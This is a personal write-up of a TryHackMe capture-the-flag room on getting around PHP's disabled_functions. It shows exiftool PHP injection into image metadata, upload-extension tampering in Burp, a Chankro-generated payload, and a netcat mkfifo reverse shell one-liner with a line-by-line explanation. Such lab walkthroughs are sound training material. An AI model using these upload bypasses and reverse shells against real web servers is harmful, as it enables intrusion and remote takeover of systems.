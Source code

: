 ```yaml
---
title: 'TryHackMe - Bypass Disable Functions'
description: "How to get around PHP disabled_functions utilizing Local File Injection (LFI) and a bit on named pipes and reverse shells."
author: 'Tim Sonner'
date: '2023-09-26'
hero: '/thm-bdf/thm-bdf-hero.jpg'
published: true
---
```

![](/thm-bdf/thm-bdf-hero.jpg)

> Picture of an European common cat using Tamron AF 70-300mm F4-5.6 Di LD Macro 1:2 lens
> Date 	18 December 2010
> Source 	Own work
> Author 	Florinux  
> http://www.wikimapia.org/#lat=44.647834&lon=7.6567841&z=14&l=4&m=b  


# THM - Bypass Disable Functions  
https://tryhackme.com/room/bypassdisablefunctions  

## First spin up the target machine and navigate to the upload CV page  

We're going to upload an image with a PHP payload. Its benign and will help us gain info about the target system. I searched the interweb for a cat image, I saved it with the .jpg extension.  

## Generate phpinfo() payload using exiftool to inject PHP into an image's Meta Data  
```  
exiftool -Comment='<?php phpinfo(); ?>' ./street-cat.jpg  
```  

## Browse for the image file using the CV upload form. Before submitting, make sure you have Burp Suite setup to intercept requests to the target. Toggle Intercept On and submit the image.  

![](/thm-bdf/thm-bdf-upload.png)

## Modify teh POST request to change image file extension from .jpg to .php  
![](/thm-bdf/thm-bdf-burp.png)

## Navigate to /uploads/street-cat.php  
For later payloads, we can use curl...  
```  
curl https://x.x.x.x/uploads/tryhackme.php
```  

## We are presented with phpinfo()  
![](/thm-bdf/thm-bdf-phpinfo.png)  

Take a look at the disabled_functions and DOCUMENT_ROOT envir0nment variables. The disabled_functions var tells us we can't use many of the classic PHP payload functions. We must resort to using other means. 

## Download and install Chankro  
https://github.com/TarlogicSecurity/Chankro/tree/master

## Generate bash payload (c.sh) using your favorite flavor of text editor or echo. Modify the filepath using CONTEXT_DOCUMENT_ROOT
```bash  
#! /bin/bash
find / flag*.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag-location.txt  
#cat /path/to/flag/flag.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag.txt
```  

## Ex3cute chankro command using the path in CONTEXT_DOCUMENT_ROOT as an argument to generate a .php file  
```  
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/  
```  
## Add the magic gif word (GIF87a) to the top of the php file. 1 is line number, i is insert  
```  
sed -i '1iGIF87a' tryhackme.php
```  
## Rename the .php file extension to .jpg  
```  
mv tryhackme.php tryhackme.jpg
```  
## Upload the image file using BurpSuite to rename the extension .php  
![](/thm-bdf/thm-bdf-burp-2.png)

## Navigate to /uploads/tryhackme.php  

Try a few payloads... Once the flag is captured, we need to spin up a reverse shell for the sake of learning.  

## Generate a reverse shell payload  
https://revshells.com  
The nc mkfifo payload is very nice.  Change the IP to your attacker machine IP. Run 'ip addr' and look for tun0 or tun1

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```  
## Tangent about Reverse Shells and Named Pipes  

Here’s how it works:

1. **```rm /tmp/f;```** Deletes the file named “f” in the “/tmp” directory if it exists.
2. **```mkfifo /tmp/f;```** Creates a named pipe (FIFO) named “f” in the “/tmp” directory. This pipe acts as a stack for data between processes (First In First Out).
3. **```cat /tmp/f|```** Reads from the named pipe “f.” It effectively listens for any data written into the pipe and sends any data it reads to the standard input (stdin) of the interactive shell.
4. **```sh -i 2>&1|```** Starts an interactive shell (“sh”) and redirects stderr to the same address stdout is using. 2 represents standard error, 1 represents standard output. Redirect to address.
5. **```nc 10.10.10.10 9001```** Initiates a network connection to IP address 10.10.10.10 on port 9001.
6. **```>/tmp/f```** Redirects the standard output of the entire command (including the output from the interactive shell and the output from “nc”) to the named pipe “f” which is then read by **```cat```**.

## Setup the netcat listener on localhost    
```  
nc -nvlp 9001
```  

## Navigate to or curl /uploads/tryhackme.php  
Our payload is executed and we receive a connection.  

![](/thm-bdf/thm-bdf-nc-mkfifo-shell.png)  

I tried a few variations before settling on the nc mkinfo method. Some results of my testing show us the nature of what Chankro is doing behind the scenes. We obviously called the mail() PHP function to get our c.php to run. Kindof ingenious.  

## Bind shell  
![](/thm-bdf/thm-bdf-bind-shell.png)  

## Reverse Shell  
![](/thm-bdf/thm-bdf-rev-shell.png)  

## Links I found along the way...  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass  

https://www.positioniseverything.net/php-shell_exec/  

https://www.tarlogic.com/blog/bypass-disable_functions-open_basedir/  

https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a  

https://marketsplash.com/tutorials/php/php-reverse-shell/  

https://github.com/pentestmonkey/php-reverse-shell  

https://www.geeksforgeeks.org/uploading-a-reverse-shell-to-a-web-server-in-kali-linux/  

https://highon.coffee/blog/reverse-shell-cheat-sheet/  

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/